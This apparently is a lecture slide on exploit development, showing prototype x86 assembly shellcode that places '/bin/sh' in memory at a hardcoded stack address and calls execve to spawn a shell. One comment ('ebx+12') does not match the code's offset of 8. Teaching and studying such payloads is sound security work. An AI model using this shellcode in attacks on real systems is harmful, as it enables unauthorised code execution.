

# Prototype shellcode
mov    $0xb,%eax          #sys_execve
mov    $0xbffffba0,%ebx   #addr of some mem
lea    8(%ebx),%ecx       #ecx=ebx+12(argv) xorl   %edx,%edx          #edx=NULL
movl   $0x6e69622f,(%ebx) #”/bin”
movl   $0x68732f,4(%ebx)  #”/sh\x00”
mov    %ebx,(%ecx)        #argv[0]=“/bin/sh”
mov    %edx,4(%ecx)       #argv[1]=NULL
int    $0x80              #sys_execve()

(assume 0xbffffba0 is on the stack for now and is readable/writeable)